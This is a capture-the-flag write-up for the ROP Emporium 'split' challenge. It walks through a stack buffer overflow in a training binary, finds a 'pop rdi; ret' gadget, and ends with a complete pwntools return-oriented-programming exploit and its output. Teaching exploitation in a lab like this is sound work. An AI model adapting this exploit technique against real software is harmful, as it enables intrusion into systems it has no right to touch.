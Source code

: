 # split

This one is slightly more complicated, but not by much. Here's where we really get into using gadgets to `ret` our way to the finish line.

Opening the file in `rizin` (I use Cutter because I'm a worthless asshole too stupid to use the command line) we see three things.

```text
sym.main
sym.pwnme
sym.usefulFunction
```

Cool. This looks like last time. Let's check `pwnme` and `usefulFunction`:

```c
void pwnme(void)
{
    char buf [32];
    
    memset(buf, 0, 0x20);
    puts("Contriving a reason to ask user for data...");
    printf(0x40083c);
    read(0, buf, 0x60);
    puts("Thank you!");
    return;
}
```

```c
void usefulFunction(void)
{
    system("/bin/ls");
    return;
}
```

This looks a lot like last time, but now we have a problem. `usefulFunction` calls `system()` like we hope it would, but it runs `ls` instead of `cat flag.txt` like we hoped.

Alright. Cool. Let's take stock.

We need to be able to control two main things:

- the call to `system`,
- the parameter passed to it.

And we do this by overwriting the stack.

We can do this with [return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming). Essentially, we look for gadgets - small pieces of code that usually end with a `ret` instruction. This takes advantage of how `ret` works: It pops off the stack and into `rip`, and jumps to it. This allows us to chain little bits of code together to run arbitrary code, setting up for us to pop our shell. It works like this:

1. We overwrite the saved `rip` with the address of a gadget by taking advantage of a buffer overflow.
2. When `ret` in the gadget is executed, we pop that off the stack and jump to it, executing whatever code before `ret`-ing again.
3. If we fed in the address of another gadget before that, we'll pop _that_ off, and execute _that_ gadget, and so on and so forth.
4. Rinse and repeat until profit.

Great. So we just overwrite the stack with addresses. That settles our call to `system`. What's not settled is the parameter we need to pass to it.

This is where gadgets come into play. We can run `strings` to check for any strings that we can use:

```text
$ strings split | grep bin

/bin/ls
/bin/cat flag.txt
```

Interesting. He was kind enough to leave that in there.

Looking at Cutter, we can figure out the address of that string.

```text
;-- str.bin_cat_flag.txt:
;-- usefulString:
0x00601060          .string "/bin/cat flag.txt" ; len=18
```

It even has the `usefulString` symbol attached to it. How nice.

Great. We have the string to pass, and we have the call to `system` (thankfully imported by `usefulFunction`). Now we just need to mash them together in glorious ROP glory.

The [AMD64 System V calling convention](https://wiki.osdev.org/System_V_ABI#x86-64) states that parameters to functions are passed in registers, specifically `rdi`, `rsi`, `rdx`, `rcx`, `r8`, and `r9`, with any additional parameters pushed on the stack in reverse order. Knowing this, we need to have `rdi` point to our `usefulString` right before the call to `system`.

We can do this with a gadget. Bet you were wondering when we were gonna circle back to this.

Since we control the stack, we have to pass in this address on the stack and somehow get it into `rdi`. Luckily, there's an instruction that can do this, called `pop`. How cute.

So, we're looking for a gadget that executes `pop rdi` and then `ret`. This pops the top of the stack into `rdi`, then returns. Luckily, Cutter has this built right in.

```text
[0x00400742]> /a pop rdi, ret
Searching 1 byte in [0x601090-0x6010d8]
hits: 0
Searching 1 byte in [0x400000-0x4009e0]
hits: 12
Searching 1 byte in [0x601072-0x601088]
hits: 0
Searching 1 byte in [0x600e10-0x601072]
hits: 0
Searching 1 byte in [0x100000-0x1f0000]
hits: 0
fs hits
0x004003e9 hit0_0 5f
0x004003ea hit0_1 5f
0x004003ef hit0_2 5f
0x004003f5 hit0_3 5f
0x00400400 hit0_4 5f
0x00400407 hit0_5 5f
0x00400408 hit0_6 5f
0x0040040d hit0_7 5f
0x00400413 hit0_8 5f
0x00400414 hit0_9 5f
0x004007c3 hit0_10 5f
0x00400801 hit0_11 5f 
```

So many hits. Let's pick `0x4007c3` as our gadget of choice, since looking at Cutter, we know it's in a region marked as executable.

But when we navigate to the function:

```text
0x004007c0      415e                   pop r14
0x004007c2      415f                   pop r15
0x004007c4      c3                     ret
```

What gives?

Turns out, because x86_64 is a multibyte instruction set, instructions don't have to be aligned. We can just jump right into the middle of an instruction, and the CPU, blindly assuming it's at the start of an instruction, will happily interpret it as a completely different instruction.

We can always do a sanity check to make sure we're not misinterpreting this. When we assemble this gadget into machine code:

```python
>>> from pwn import *
>>> context.arch = "amd64"
>>> asm("pop rdi\nret")
b'_\xc3' # the byte representation of '_' is 0x5f, so this is 0x5f 0xc3.
```

Looking at `0x4007c3`, we see `0x5f 0xc3`. Exactly what we need.

Cool. We can do our exploit now.

```python
from pwn import *

# this is important so we can parse the ELF correctly
context.arch = "amd64"
elf = context.binary = ELF('./split')

# overflow the stack with these
POP_RDI_GADGET = p64(0x4007c3)
CATFLAG = p64(0x601060)
# interestingly enough, this is the address of system in the PLT. 
# what's the PLT, you ask? research it, it's important.
SYSTEM = p64(elf.symbols.system)

# overflow the buffer
payload = b'A' * 40

# when pwnme returns, pop this address into rip and jump to it
payload += POP_RDI_GADGET
# put this on the stack to be popped into rdi by above gadget
payload += CATFLAG
# when said gadget returns, pop this into rip and jump to it
payload += SYSTEM

conn = process(elf.path)

conn.recvuntil(b'> ')

conn.send(payload)

print(conn.recvall())
```

Running it:

```text
$ python exploit.py

[*] '/home/sammy/Projects/binexp/ropemporium/split/split'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/sammy/Projects/binexp/ropemporium/split/split': pid 193724
[+] Receiving all data: Done (44B)
[*] Process '/home/sammy/Projects/binexp/ropemporium/split/split' stopped with exit code -11 (SIGSEGV) (pid 193724)
b'Thank you!\nROPE{a_placeholder_32byte_flag!}\n'
```

¯\\\_(ツ)_/¯
